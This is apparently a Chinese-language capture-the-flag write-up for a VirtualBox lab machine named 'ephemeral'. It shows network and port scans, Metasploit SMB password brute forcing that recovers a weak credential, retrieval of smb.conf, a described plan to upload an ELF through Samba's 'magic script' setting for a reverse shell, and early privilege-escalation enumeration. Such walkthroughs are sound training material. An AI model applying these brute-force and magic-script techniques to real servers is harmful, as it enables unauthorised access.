## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:13       (Unknown: locally administered)
192.168.56.100  08:00:27:da:52:1b       (Unknown)
192.168.56.120  08:00:27:4d:03:40       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.961 seconds (130.55 hosts/sec). 3 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.56.120
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-26 21:30 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.120
Host is up (0.0010s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:cc:f1:53:7e:6b:31:2c:10:1e:6d:bc:01:b1:c3:a2 (RSA)
|   256 cd:19:04:a0:d1:8a:8b:3d:3e:17:ee:21:5d:cd:6e:49 (ECDSA)
|_  256 e5:6a:27:39:ed:a8:c9:03:46:f2:a5:8c:87:85:44:9e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:4D:03:40 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: EPHEMERAL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: 7h59m58s
| smb2-time: 
|   date: 2025-01-27T10:31:27
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.08 seconds
```

## 获取webshell
  
  
  

>两个用户，先爆破web目录
>
  
  
  
  
  
  

>都不行，看看另外一个用户了
>
  

>需要私钥，另外一个用户没有爆破出来
>
  
  
  

>这里我尝试换字典进行爆破
>
>好像这个工具有问题换一个工具爆破

```
msf6 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting                                        Required  Description
   ----               ---------------                                        --------  -----------
   ABORT_ON_LOCKOUT   false                                                  yes       Abort the run when an account lockout is detected
   ANONYMOUS_LOGIN    false                                                  yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS    false                                                  no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                                                      yes       How fast to bruteforce, from 0 to 5
   CreateSession      false                                                  no        Create a new session for every successful login
   DB_ALL_CREDS       false                                                  no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false                                                  no        Add all passwords in the current database to the list
   DB_ALL_USERS       false                                                  no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none                                                   no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false                                                  no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false                                                  no        Detect if domain is required for the specified user
   PASS_FILE          /usr/share/seclists/Passwords/xato-net-10-million-pas  no        File containing passwords, one per line
                      swords-100000.txt
   PRESERVE_DOMAINS   true                                                   no        Respect a username that contains a domain name.
   Proxies                                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false                                                  no        Record guest-privileged random logins to the database
   RHOSTS             192.168.56.120                                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                                                                       ml
   RPORT              445                                                    yes       The SMB service port (TCP)
   SMBDomain          .                                                      no        The Windows domain to use for authentication
   SMBPass                                                                   no        The password for the specified username
   SMBUser                                                                   no        The username to authenticate as
   STOP_ON_SUCCESS    false                                                  yes       Stop guessing when a credential works for a host
   THREADS            1                                                      yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                                                             no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false                                                  no        Try the username as the password for all users
   USER_FILE          /home/lingmj/xxoo/user                                 no        File containing usernames, one per line
   VERBOSE            true                                                   yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.56.120:445    - 192.168.56.120:445 - Starting SMB login bruteforce
[+] 192.168.56.120:445    - 192.168.56.120:445 - Success: '.\ralph:123456'
```

  
  
  

>找到了，很烦
>


```
└─# smbclient //192.168.56.120/SYSADMIN -U randy
Password for [WORKGROUP\randy]:
Try "help" to get a list of possible commands.
smb: \> ls -al
NT_STATUS_NO_SUCH_FILE listing \-al
smb: \> dir
  .                                   D        0  Sun Apr 10 21:13:45 2022
  ..                                  D        0  Sun Apr 10 20:36:23 2022
  reminder.txt                        N      193  Sun Apr 10 20:59:06 2022
  smb.conf                            N     9097  Sat Apr  9 16:32:20 2022
  help.txt                            N     4663  Sun Apr 10 20:59:43 2022

                8704372 blocks of size 1024. 823468 blocks available
smb: \> get smb.conf
getting file \smb.conf of size 9097 as smb.conf (683.4 KiloBytes/sec) (average 683.4 KiloBytes/sec)
smb: \> exit
                                                                                                                                                                                             
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# cat smb.conf 


[global]

## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP

# server string is the equivalent of the NT Description field
   server string = %h server (Samba, Ubuntu)

#### Networking ####

# The specific set of interfaces / networks to bind to
# This can be either the interface name or an IP address/netmask;
# interface names are normally preferred
;   interfaces = 127.0.0.0/8 eth0

# Only bind to the named interfaces and/or networks; you must use the
# 'interfaces' option above to use this.
# It is recommended that you enable this feature if your Samba machine is
# not protected by a firewall or is a firewall itself.  However, this
# option cannot handle dynamic or non-broadcast interfaces correctly.
;   bind interfaces only = yes


#### Debugging/Accounting ####

# This tells Samba to use a separate log file for each machine
# that connects
   log file = /var/log/samba/log.%m

# Cap the size of the individual log files (in KiB).
   max log size = 1000

# We want Samba to only log to /var/log/samba/log.{smbd,nmbd}.
# Append syslog@1 if you want important messages to be sent to syslog too.
   logging = file

# Do something sensible when Samba crashes: mail the admin a backtrace
   panic action = /usr/share/samba/panic-action %d


####### Authentication #######

# Server role. Defines in which mode Samba will operate. Possible
# values are "standalone server", "member server", "classic primary
# domain controller", "classic backup domain controller", "active
# directory domain controller". 
#
# Most people will want "standalone server" or "member server".
# Running as "active directory domain controller" will require first
# running "samba-tool domain provision" to wipe databases and create a
# new domain.
   server role = standalone server

   obey pam restrictions = yes

# This boolean parameter controls whether Samba attempts to sync the Unix
# password with the SMB password when the encrypted SMB password in the
# passdb is changed.
   unix password sync = yes

# For Unix password sync to work on a Debian GNU/Linux system, the following
# parameters must be set (thanks to Ian Kahan <<kahan@informatik.tu-muenchen.de> for
# sending the correct chat script for the passwd program in Debian Sarge).
   passwd program = /usr/bin/passwd %u
   passwd chat = *Enter\snew\s*\spassword:* %n\n *Retype\snew\s*\spassword:* %n\n *password\supdated\ssuccessfully* .

# This boolean controls whether PAM will be used for password changes
# when requested by an SMB client instead of the program listed in
# 'passwd program'. The default is 'no'.
   pam password change = yes

# This option controls how unsuccessful authentication attempts are mapped
# to anonymous connections
   map to guest = bad user

########## Domains ###########

#
# The following settings only takes effect if 'server role = primary
# classic domain controller', 'server role = backup domain controller'
# or 'domain logons' is set 
#

# It specifies the location of the user's
# profile directory from the client point of view) The following
# required a [profiles] share to be setup on the samba server (see
# below)
;   logon path = \\%N\profiles\%U
# Another common choice is storing the profile in the user's home directory
# (this is Samba's default)
#   logon path = \\%N\%U\profile

# The following setting only takes effect if 'domain logons' is set
# It specifies the location of a user's home directory (from the client
# point of view)
;   logon drive = H:
#   logon home = \\%N\%U

# The following setting only takes effect if 'domain logons' is set
# It specifies the script to run during logon. The script must be stored
# in the [netlogon] share
# NOTE: Must be store in 'DOS' file format convention
;   logon script = logon.cmd

# This allows Unix users to be created on the domain controller via the SAMR
# RPC pipe.  The example command creates a user account with a disabled Unix
# password; please adapt to your needs
; add user script = /usr/sbin/adduser --quiet --disabled-password --gecos "" %u

# This allows machine accounts to be created on the domain controller via the 
# SAMR RPC pipe.  
# The following assumes a "machines" group exists on the system
; add machine script  = /usr/sbin/useradd -g machines -c "%u machine account" -d /var/lib/samba -s /bin/false %u

# This allows Unix groups to be created on the domain controller via the SAMR
# RPC pipe.  
; add group script = /usr/sbin/addgroup --force-badname %g

############ Misc ############

# Using the following line enables you to customise your configuration
# on a per machine basis. The %m gets replaced with the netbios name
# of the machine that is connecting
;   include = /home/samba/etc/smb.conf.%m

# Some defaults for winbind (make sure you're not using the ranges
# for something else.)
;   idmap config * :              backend = tdb
;   idmap config * :              range   = 3000-7999
;   idmap config YOURDOMAINHERE : backend = tdb
;   idmap config YOURDOMAINHERE : range   = 100000-999999
;   template shell = /bin/bash

# Setup usershare options to enable non-root users to share folders
# with the net usershare command.

# Maximum number of usershare. 0 means that usershare is disabled.
#   usershare max shares = 100

# Allow users who've been granted usershare privileges to create
# public shares, not just authenticated ones
   usershare allow guests = yes

#======================= Share Definitions =======================

# Un-comment the following (and tweak the other settings below to suit)
# to enable the default home directory shares. This will share each
# user's home directory as \\server\username
;[homes]
;   comment = Home Directories
;   browseable = no

# By default, the home directories are exported read-only. Change the
# next parameter to 'no' if you want to be able to write to them.
;   read only = yes

# File creation mask is set to 0700 for security reasons. If you want to
# create files with group=rw permissions, set next parameter to 0775.
;   create mask = 0700

# Directory creation mask is set to 0700 for security reasons. If you want to
# create dirs. with group=rw permissions, set next parameter to 0775.
;   directory mask = 0700

# By default, \\server\username shares can be connected to by anyone
# with access to the samba server.
# Un-comment the following parameter to make sure that only "username"
# can connect to \\server\username
# This might need tweaking when using external authentication schemes
;   valid users = %S

# Un-comment the following and create the netlogon directory for Domain Logons
# (you need to configure Samba to act as a domain controller too.)
;[netlogon]
;   comment = Network Logon Service
;   path = /home/samba/netlogon
;   guest ok = yes
;   read only = yes

# Un-comment the following and create the profiles directory to store
# users profiles (see the "logon path" option above)
# (you need to configure Samba to act as a domain controller too.)
# The path below should be writable by all users so that their
# profile directory may be created the first time they log on
;[profiles]
;   comment = Users profiles
;   path = /home/samba/profiles
;   guest ok = no
;   browseable = no
;   create mask = 0600
;   directory mask = 0700

[printers]
   comment = All Printers
   browseable = no
   path = /var/spool/samba
   printable = yes
   guest ok = no
   read only = yes
   create mask = 0700

# Windows clients look for this share name as a source of downloadable
# printer drivers
[print$]
   comment = Printer Drivers
   path = /var/lib/samba/printers
   browseable = yes
   read only = yes
   guest ok = no
# Uncomment to allow remote administration of Windows print drivers.
# You may need to replace 'lpadmin' with the name of the group your
# admin users are members of.
# Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
;   write list = root, @lpadmin

[SYSADMIN]

path = /home/randy/smbshare
valid users = randy
browsable = yes
writeable = yes
read only = no
magic script = smbscript.elf
guest ok = no
```

>到这里我很熟悉奥，上传一个东西名字叫smbscript.elf，直接执行，反弹shell
>
  
  
  

## 提权
```
randy@ephemeral:/home/randy/smbshare$ stty rows 43 columns 189
randy@ephemeral:/home/randy/smbshare$ id
uid=1000(randy) gid=1000(randy) groups=1000(randy),133(sambashare)
randy@ephemeral:/home/randy/smbshare$ 

```

```
randy@ephemeral:/opt$ ls -al
total 8
drwxr-xr-x  2 root root 4096 Apr  7  2022 .
drwxr-xr-x 20 root root 4096 Apr  7  2022 ..
randy@ephemeral:/opt$ cd /var/backups/
randy@ephemeral:/var/backups$ ls -al
total 2780
drwxr-xr-x  2 root root    4096 Apr 10  2022 .
drwxr-xr-x 15 root root    4096 Apr  7  2022 ..
-rw-r--r--  1 root root   61440 Apr 10  2022 alternatives.tar.0
-rw-r--r--  1 root root    2870 Apr  9  2022 alternatives.tar.1.gz
-rw-r--r--  1 root root    2821 Apr  7  2022 alternatives.tar.2.gz
-rw-r--r--  1 root root   82777 Apr 10  2022 apt.extended_states.0
-rw-r--r--  1 root root   10257 Apr  9  2022 apt.extended_states.1.gz
-rw-r--r--  1 root root   10026 Apr  8  2022 apt.extended_states.2.gz
-rw-r--r--  1 root root   10019 Apr  7  2022 apt.extended_states.3.gz
-rw-r--r--  1 root root      11 Apr  7  2022 dpkg.arch.0
-rw-r--r--  1 root root      43 Apr  7  2022 dpkg.arch.1.gz
-rw-r--r--  1 root root      43 Apr  7  2022 dpkg.arch.2.gz
-rw-r--r--  1 root root      43 Apr  7  2022 dpkg.arch.3.gz
-rw-r--r--  1 root root     186 Apr  7  2022 dpkg.diversions.0
-rw-r--r--  1 root root     126 Apr  7  2022 dpkg.diversions.1.gz
-rw-r--r--  1 root root     126 Apr  7  2022 dpkg.diversions.2.gz
-rw-r--r--  1 root root     126 Apr  7  2022 dpkg.diversions.3.gz
-rw-r--r--  1 root root     172 Apr  9  2022 dpkg.statoverride.0
-rw-r--r--  1 root root     168 Feb 23  2022 dpkg.statoverride.1.gz
-rw-r--r--  1 root root     168 Feb 23  2022 dpkg.statoverride.2.gz
-rw-r--r--  1 root root     168 Feb 23  2022 dpkg.statoverride.3.gz
-rw-r--r--  1 root root 1540510 Apr 10  2022 dpkg.status.0
-rw-r--r--  1 root root  353774 Apr  9  2022 dpkg.status.1.gz
-rw-r--r--  1 root root  352540 Apr  8  2022 dpkg.status.2.gz
-rw-r--r--  1 root root  339095 Apr  7  2022 dpkg.status.3.gz
randy@ephemeral:/var/backups$ cd /var/www/html/
randy@ephemeral:/var/www/html$ ls a-l
ls: cannot access 'a-l': No such file or directory
randy@ephemeral:/var/www/html$ ls -al
total 24
drwxr-xr-x 3 root root  4096 Apr 10  2022 .
drwxr-xr-x 3 root root  4096 Apr  7  2022 ..
drwxr-xr-x 7 root root  4096 Sep  7  2019 foodservice
-rw-r--r-- 1 root root 10918 Apr  7  2022 index.html
randy@ephemeral:/var/www/html$ cd foodservice/
randy@ephemeral:/var/www/html/foodservice$ ls -al
total 48
drwxr-xr-x 7 root root  4096 Sep  7  2019 .
drwxr-xr-x 3 root root  4096 Apr 10  2022 ..
drwxr-xr-x 2 root root  4096 Sep  7  2019 css
drwxr-xr-x 2 root root  4096 Sep  7  2019 fonts
drwxr-xr-x 2 root root  4096 Sep  7  2019 icon
drwxr-xr-x 2 root root  4096 Sep  9  2019 images
-rw-r--r-- 1 root root 16429 Sep  9  2019 index.html
drwxr-xr-x 3 root root  4096 Sep  7  2019 js
randy@ephemeral:/var/www/html/foodservice$ 
```

>这里没有东西，利用工具处理一下，注意没wget，有busybox
>
  
  
